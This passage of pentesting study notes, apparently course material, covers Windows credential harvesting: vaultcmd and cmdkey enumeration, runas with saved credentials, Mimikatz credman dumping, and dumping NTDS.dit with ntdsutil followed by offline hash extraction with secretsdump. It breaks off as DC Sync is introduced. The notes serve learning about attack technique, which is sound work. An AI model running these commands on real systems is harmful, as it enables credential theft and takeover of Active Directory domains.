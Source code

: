 		- By default, Windows should have 2 vaults, one for Web and the other for Windows machine credentials.
		- Check the web credentials vault using `vaultcmd /listproperties:"Web Credentials"`.
		- Get more information about the stored credentials using `vaultcmd /listcreds:"Web Credentials"`.
		- `vaultcmd` can't show the passwords, we can rely on other PowerShell scripts such as [Get-WebCredentials.ps1](https://github.com/samratashok/nishang/blob/master/Gather/Get-WebCredentials.ps1).
			- `powershell -ex bypass`
			- `Import-Module C:\Tools\Get-WebCredentials.ps1`
			- `Get-WebCredentials`
	- #### *RunAs*
		- A command-line built-in tool that allows running Windows applications or tools under different users' permissions.
		- It contains various command arguments that could be used in the Windows system.
			- `/savecred` allows us to save the credentials of the user in Windows Credentials Manager.
		- `cmdkey` a tool used to enumerate stored credentials, allows us to create, delete, and display stored Windows credentials.
			- `/list` argument to show all stored credentials, or display more details using `/list:computername`.
		- Using `runas /savecred /user:<username> cmd.exe` to open CMD as the found creds.
	- #### *Mimikatz*
		- `.\mimikatz.exe`
		- `privilege::debug`
		- `sekurlsa::credman`
- ## *Domain Controller*
	- #### *NTDS Domain Controller*
		- New Technology Directory Services is a database containing all AD data, including objects, attributes, credentials, etc.
		- Consists of the following tables
			- **Schema table:** contains types of objects and their relationships
			- **Link table:** contains the object's attributes and their values.
			- **Data type:** contains users and groups.
		- NTDS is located in `C:\Windows\NTDS` by default, and is encrypted to prevent data extraction from a target machine.
		- Accessing the `NTDS.dit` file from the machine running is disallowed since the file is used by AD and is locked.
		- Decrypting the NTDS file requires a system Boot Key to attempt to decrypt the LSA Isolated credentials, which is stored in the `SECURITY` file system.
	- #### *Ntdsutil*
		- Windows utility used to manage and maintain AD configurations.
		- It can be used to
			- Restore deleted objects in AD.
			- Perform maintenance for the AD database.
			- AD snapshot management.
			- Set Directory Services Restore Mode (DSRM) administrator passwords.
		- **Local Dumping (No Credentials)**
			- If we have no credentials available but have administrative access to the DC.
			- Will rely on Windows utilities to dump the NTDS file and crack them offline.
			- Assuming we have administrative access to DC, to successfully dump the contents of the NTDS file, we need the following
				- `C:\Windows\NTDS\ntds.dit`
				- `C:\Windows\System32\config\SYSTEM`
				- `C:\Windows\System32\config\SECURITY`
			- Dump the NTDS file using `Ntdsutil` tool `powershell "ntdsutil.exe 'ac i ntds' 'ifm' 'create full c:\temp' q q"`.
			- In the `c:\temp\` directory, there should be two folders Active Directory and registry, which contains the three files we need.
			- Transfer them to attacking machine and run `secretsdump.py` script to extract the hashes from the dumped memory file `python3.9 /opt/impacket/examples/secretsdump.py -security <path-to-SECURITY> -system <path-to-SYSTEM> -ntds <path-to-ntds.dit> local`.
		- **Remote Dumping (With Credentials)**
			- **DC Sync**
				- A known attack within AD environment to dump credentials remotely.
				- Works when an account (special account with necessary permissions) or AD admin account is compromised that has the following AD permissions